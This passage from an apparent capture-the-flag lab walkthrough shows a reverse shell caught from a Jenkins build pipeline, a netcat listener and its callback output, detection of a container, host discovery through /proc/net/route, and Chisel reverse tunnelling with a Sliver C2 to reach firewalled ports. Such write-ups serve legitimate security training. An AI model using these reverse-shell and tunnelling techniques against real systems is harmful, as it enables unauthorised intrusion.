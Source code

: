 We'll then start up a reverse shell and wait for this pipeline to execute after we save the file. I'm assuming that this is automated so we'll need to wait probably a minute or two depending on how often the build is deployed.

```
└─$ nc -lvnp 9001       
listening on [any] 9001 ...
connect to [10.8.0.173] from (UNKNOWN) [10.10.90.130] 45014
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
root@5ac6c7d6fb8e:/var/jenkins_home/workspace/build_dev_main#
```

After a short amount of time after committing to the branch, you'll see that we'll receive a callback on our machine that generated a reverse shell.

The user flag is within `/root`.

# Chisel Tunneling

Given that we're already root on this machine and we have only gotten a user flag, I'm assuming that we're in a container of some sort. This along with the fact that the delimiter after our username on the TTY seems to be an odd string of characters.

You'll notice that we don't have access to basic tools such as `netstat` or `ip`, which are generally installed by default on Linux machines. This solidifies my theory that we're currently in a container, so we'll need to perform a breakout to be able to access the actual machine. I'll set up a [Sliver](https://github.com/BishopFox/sliver) C2 server so that we can enumerate the filesystem a little easier.

So one thing as I mentioned before, we don't have access to `netstat` or `ifconfig` due to the containers limitations, so we don't know what the address is of this container. There is an alternative though, which is within `/proc/net/route`. This file shows all of the network interfaces and a hexadecimal version of their destination  and gateway IP addresses. There's a way to decode this, which you can find [here](https://www.browserling.com/tools/hex-to-ip).

After decoding them, you'll find that it's backwards. The host seems to be `172.18.0.1`.

Immediately though, I remembered that there was port 8081 and port 3306 running on this machine through a firewall. Although we are within a container, there's a chance that we can still access these two ports remotely. We'll use a tool called [Chisel](https://github.com/jpillora/chisel), and attempt to redirect these services back to our localhost for us to access.

You'll need to upload the chisel binary to the container as well as have your own to start the server. We'll use a socks proxy along with `proxychains4`.

```
└─$ ./chisel server --reverse --port 8001            
2024/06/03 13:48:43 server: Reverse tunnelling enabled
2024/06/03 13:48:43 server: Fingerprint CrkDZ/Wi1k4tB14kgS3IOxLFVNgd4mQ/r/aKuFchUII=
2024/06/03 13:48:43 server: Listening on http://0.0.0.0:8001
```

Then on the remote machine, execute the chisel client to connect back to this server we just stood up.
